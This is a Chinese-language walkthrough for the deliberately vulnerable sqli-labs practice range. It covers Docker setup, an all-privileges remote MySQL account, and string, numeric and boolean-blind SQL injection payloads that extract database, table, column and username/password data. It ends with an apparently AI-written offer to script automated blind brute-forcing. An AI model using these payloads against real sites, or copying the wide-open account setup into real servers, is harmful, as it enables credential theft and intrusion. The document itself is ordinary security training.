# sql注入 sql-lib 靶场

#### 靶场迅速搭建

查找sqli-labs镜像：

```
docker search sqli-labs
```

下载sqli-labs镜像到本地：

```
docker pull acgpiano/sqli-labs
```

启动sqli-labs容器

```
docker run -it -d --name sqli-labs -p 88:80 -p 13306:3306 acgpiano/sqli-labs
```



tips：远程访问数据库

> [!NOTE]
>
> ```
> 进入docker里面的mysql
> docker exec -it sqli-labs bash
> mysql -u root -p
> 
> 创建一个远程账号
> CREATE USER 'test'@'%' IDENTIFIED BY 'test123';
> GRANT ALL PRIVILEGES ON *.* TO 'test'@'%' WITH GRANT OPTION;
> FLUSH PRIVILEGES;
> 
> ```
>
> ```sql
> GRANT ALL PRIVILEGES ON *.* TO 'test'@'%' WITH GRANT OPTION;
> ```
>
> ### 含义解析
>
> 1. **`GRANT ALL PRIVILEGES`**
>    - 给用户分配 *所有权限*（包括 `SELECT`、`INSERT`、`UPDATE`、`DELETE`、`CREATE`、`DROP`、`GRANT` 等）。
>    - 在 MySQL 中几乎等同于 **超级管理员权限**。
> 2. **`ON \*.\*`**
>    - `*.*` 表示对 **所有数据库、所有表** 生效。
>    - 如果写成 `db_name.*` 就是只对某个库下所有表生效。
> 3. **`TO 'test'@'%'`**
>    - 用户名是 `test`。
>    - `'%'` 表示允许从 **任意 IP 地址** 远程连接。
>    - 如果写成 `'test'@'localhost'` 就只能本地连接。
> 4. **`WITH GRANT OPTION`**
>    - 允许 `test` 用户 **把自己拥有的权限再授予别人**。
>    - 这意味着 `test` 不仅能操作所有数据库，还能再创建、授权新的用户，相当于超级管理员。
>
> 


# less 1

####  **Less-1** 关卡是典型的 **字符型 SQL 注入靶场**。它的后端大概率是这样的代码：

```php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

可以看到：

- `id` 被单引号 `'` 包裹
- 没有过滤或转义
- 这就是单引号型注入（String based Injection）


### ① 判断是否存在注入

访问：

```
?id=1'
```

报错，说明 SQL 被破坏了。✅




------

### ② 判断注释符

试试：

```
?id=1'--空格
SELECT * FROM users WHERE id ='1'-- ' LIMIT 0,1 ;
```



报错消失，说明注释符正确。



------

### ③ 判断字段数（ORDER BY）

```
?id=1' ORDER BY 3 --+
SELECT * FROM users WHERE id ='1' ORDER BY 3 -- ' LIMIT 0,1 ;
```







页面正常，再试：

```
?id=1' ORDER BY 4--+
```

报错，说明字段数是 3。✅



------

### ④ 利用联合查询（UNION SELECT）

构造：

```
?id=-1' UNION SELECT 1,2,3--+     
SELECT * FROM users WHERE id ='-1' UNION SELECT 1,2,3 -- ' LIMIT 0,1;
```

> [!NOTE]
>
> `id=-1` 是一种常见的技巧，核心目的是**让原始查询返回空结果**，从而凸显 `UNION` 拼接的查询结果

页面会显示 `2`、`3` 等字段位置。



------

### ⑤ 获取数据库信息

当前数据库名：用户

```
?id=1' UNION SELECT 1,database(),user()--+
SELECT * FROM users WHERE id ='-1' UNION SELECT 1,DATABASE(),USER() -- LIMIT 0,1;
```





所有数据库：

```
?id=-1' UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata--+

SELECT * FROM users WHERE id ='1' UNION SELECT 1,GROUP_CONCAT(schema_name),3 FROM information_schema.SCHEMATA -- LIMIT 0,1;
```

**核心部分：`UNION SELECT 1, GROUP_CONCAT(schema_name), 3 FROM information_schema.SCHEMATA`**

- `UNION`：用于合并两个查询的结果集（要求前后查询的字段数量和类型一致）。

- ```
  SELECT 1, GROUP_CONCAT(schema_name), 3
  ```

  ：

  - `1` 和 `3` 是占位符，用于匹配原始查询的字段数量（假设 `users` 表有 3 个字段），确保 `UNION` 语法正确。

  - ```
    GROUP_CONCAT(schema_name)
    ```

    ：核心注入逻辑，用于获取数据库中所有库名：

    - `information_schema.SCHEMATA` 是 MySQL 系统表，存储了所有数据库（库）的元信息。
    - `schema_name` 是该表的字段，代表 “数据库名”。
    - `GROUP_CONCAT()` 函数会将所有库名拼接成一个字符串（避免多行返回），方便在页面中显示。





------

### ⑥ 获取表名

当前数据库是 `security`：

```
?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security'--+

SELECT * FROM users WHERE id ='-1' UNION SELECT 1,GROUP_CONCAT(table_name),3 FROM information_schema.TABLES WHERE TABLE_schema='security' -- LIMIT 0,1;
```

**核心部分：`UNION SELECT 1, GROUP_CONCAT(table_name), 3 ...`**

- `UNION`：合并两个查询的结果，要求前后查询的字段数量一致（这里假设 `users` 表有 3 个字段，因此用 `1`、`GROUP_CONCAT(...)`、`3` 三个值匹配）。

- 核心查询逻辑：从系统表

  ```
  information_schema.TABLES
  ```

  中获取指定数据库的所有表名：

  - `information_schema.TABLES`：MySQL 系统表，存储了所有数据库中表的元信息（包括表名、所属数据库等）。
  - `TABLE_schema='security'`：条件筛选，只查询属于 `security` 数据库的表（`security` 是 SQLi-Lib 靶场中常见的数据库名）。
  - `GROUP_CONCAT(table_name)`：将查询到的所有表名拼接成一个字符串（例如 `emails,referers,uagents,users`），方便在页面中一次性显示（避免多行结果被截断）。





------

### ⑦ 获取字段名

表名是 `users`：

```
?id=-1' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users'--+

SELECT * FROM users WHERE id ='-1' UNION SELECT 1,GROUP_CONCAT(COLUMN_name),3 FROM information_schema.`COLUMNS`WHERE TABLE_name='users' -- LIMIT 0,1;
```





------



### ⑧ 获取数据

比如字段有 `id,username,password`：

```
?id=-1' UNION SELECT 1,group_concat(username),group_concat(password) FROM users--+

SELECT * FROM users WHERE id ='-1' UNION SELECT 1,GROUP_CONCAT(username),GROUP_CONCAT(password) FROM users  -- LIMIT 0,1;
```






# less2

尝试less1的方法

```
?id=1'  会报错
?id=1' --+ 也会报错，猜测可能是数字型，因为新多了'导致无法闭合
```

验证是否是数字型

```
?id=1 and 1=1   → 结果正常（因为 1=1 永远成立）
```



```
?id=1 and 1=2  → 页面没有数据显示（因为 1=2 永远不成立）
```



### 证明了第二关是数字型注入，那么接下来照着第一关就行，去掉'

演示获取表名

```
?id=-1 UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security'--+

SELECT * FROM users WHERE id =-1 UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security' -- LIMIT 0,1;
```





# less-5 盲注

# 🔎 第一步：确认注入点

```
?id=1-14  一直显示的都是you are in .....
?id=15           当id等于15的时候，页面显示为空
大概可以猜测出如果为真就显示，为否就不显示，是标准的盲注
也能知道此表有14个记录

?id=1'             加上' 后报错，证明存在注入点
尝试是否为数字型
?id=1 and 1=1
?id=1 and 1=2      页面没有区别出真假注入点
尝试字符型
?id=1’ and 1=1 --+
```

#### ?id=1' and 1=2 --+  有区别出假注入点，没有了回显，less5是**布尔型盲注**。

#### 并且可以利用 真or否 来盲注




------

## 🔎 第二步：确认当前数据库名

用 `database()` 判断。

例子：

```
?id=1' and database()='security' --+
```

如果页面正常，说明当前数据库名是 `security`。
 否则继续猜。

更常用的办法是先猜长度：

```
?id=1' and length(database())=8 --+
```

如果正确 → 数据库名长度是 8。

再逐字符猜：

```
?id=1' and ascii(substr(database(),1,1))=115 --+
```

👉 如果页面正常，说明数据库名第一个字母 ASCII=115，即 `s`。

------

## 🔎 第三步：枚举表名

拿 `information_schema.tables`：

```
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=5 --+
```

判断第一张表的表名长度是不是 5。

再猜字符：

```
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=117 --+
```

✅ 如果成立，说明第一个字符 ASCII=117 (`u`)，可能就是 `users`。

------

## 🔎 第四步：枚举列名

比如表 `users`：

```
?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))=8 --+
```

猜到列名长度。

再猜字符：

```
?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=117 --+
```

慢慢拼出列名（如 `username`、`password`）。

------

## 🔎 第五步：获取数据

比如第一条用户：

```
?id=1' and length((select username from users limit 0,1))=5 --+
?id=1' and ascii(substr((select username from users limit 0,1),1,1))=68 --+
```

拼出来就是 `Dumb`。

------

⚡ 总结：

1. **用布尔真假差异**来枚举 → 数据库名 → 表名 → 列名 → 数据。
2. 常用函数：`length()`、`substr()`、`ascii()`。
3. 流程跟你写的那两个 SQL (`LENGTH` + `table_name`) 一样，只是逐层扩展。

------

要不要我帮你写一套 **针对 Less-5 的完整 SQL 注入盲注 payload 脚本**（比如用 Python 自动跑，逐字符爆破）？
